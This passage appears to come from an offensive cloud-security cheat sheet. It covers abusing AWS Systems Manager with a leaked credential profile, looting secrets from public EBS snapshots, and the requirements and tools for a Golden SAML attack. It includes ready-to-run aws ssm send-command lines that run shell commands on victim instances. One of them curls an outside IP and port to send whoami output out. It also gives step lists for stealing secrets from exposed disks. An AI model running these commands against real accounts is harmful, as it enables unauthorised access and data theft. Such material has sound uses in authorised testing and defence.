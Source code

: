 ```
aws ssm describe-instance-information --profile leakedProfile --region eu-west-1
```
	
```
aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile leakedProfile
```

```
aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile leakedProfile
```

```
aws ssm send-command --instance-ids "i-09nXXXXX" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.XX.XX:8080/`whoami`' --output text --region=us-east-1
```

[Send Command API](https://docs.aws.amazon.com/fr_fr/systems-manager/latest/APIReference/API_SendCommand.html)


#### Exploiting public EBS volumes (same with EC2 AMI)
Elastic Block Store (Amazon EBS) has a "public" mode that makes your virtual hard disk available to anyone on the internet. (More precisely it is snapshot which can be made public)

01. Pick an exposed snapshot
02. Attach the volume to your EC2 instance
03. Search the disk for secrets 

--> DuffleBag tool can be used to automate this process.

--> By searching exposed EBS volumes, an attacker can steal secrets from a server that isn’t even exposed to the internet

https://www.youtube.com/watch?v=-LGR63yCTts

#### Golden SAML Attack
https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps

Golden SAML introduces to a federation the advantages that golden ticket offers in a Kerberos environment – from gaining any type of access to stealthily maintaining persistency.  

Here’s a list of the requirements for performing a golden SAML attack:

- Token-signing private key
- IdP public certificate
- IdP name
- Role name (role to assume)
- Domain\username
- Role session name in AWS
- Amazon account ID

**Usefull tools:**
- https://github.com/cyberark/shimit
- https://github.com/fireeye/ADFSDump
- https://github.com/fireeye/ADFSpoof
